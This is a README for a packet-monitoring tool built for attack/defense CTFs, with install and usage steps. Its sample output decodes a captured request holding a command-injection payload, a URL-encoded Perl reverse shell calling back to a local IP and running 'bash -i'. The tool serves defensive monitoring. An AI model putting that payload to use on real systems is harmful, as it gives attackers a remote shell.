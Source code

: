 # packettower
a tool to listen to and monitor network traffic

_sample output_

```
2022-05-19T19:12:14.639378 - tcp packet from: 172.17.0.1:44526 -> to: 172.17.0.2:80 (URLENCODED-FORM_RAW packet)
[info] payload detected
(raw):
50:4f:53:54:20:2f:76:75:6c:6e:65:72:61:62:69:6c:69:74:69:65:73:2f:65:78:65:63:2f:(...)
(decoded):
POST /vulnerabilities/exec/ HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:100.0) Gecko/20100101 Firefox/100.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 367
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/vulnerabilities/exec/
Cookie: PHPSESSID=47kjm8kgbu0ef0jefr7esfukg5; security=low
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
DNT: 1
Sec-GPC: 1

ip=%3B+perl+-e+%27use+Socket%3B%24i%3D%22172.17.0.1%22%3B%24p%3D9876%3Bsocket%28S%2CPF_INET%2CSOCK_STREAM%2Cgetprotobyname%28%22tcp%22%29%29%3Bif%28connect%28S%2Csockaddr_in%28%24p%2Cinet_aton%28%24i%29%29%29%29%7Bopen%28STDIN%2C%22%3E%26S%22%29%3Bopen%28STDOUT%2C%22%3E%26S%22%29%3Bopen%28STDERR%2C%22%3E%26S%22%29%3Bexec%28%22bash+-i%22%29%3B%7D%3B%27&Submit=Submit
-----------------------
```
*note: raw hex dump has been shortened here, full hex dump is written during runtime*

## installation

```bash
$ git clone https://github.com/e-seng/packettower.git
$ pip3 install -r ./packettower/requirements.txt
```

## running it

requires hightened privileges, as this will run `tcpdump` to listen to network
traffic.

packet information parsed by packettower will be written to `stdout`

```bash
Usage: ./packettower.py <interface> [options]
optional args:
| -o /path/to/dump/folder - write to the location to write files
|    note: this will generate a file called packettower_dump-%H-%M-%S-%s.pcap if not specified, no pcap file will be generated.
| -h - displays this help menu
```

eg. `$ sudo ./packettower.py docker0 -o test_dumps`

`./test_dumps` must be a directory that already exists

*written for Attack/Defense CTFs*
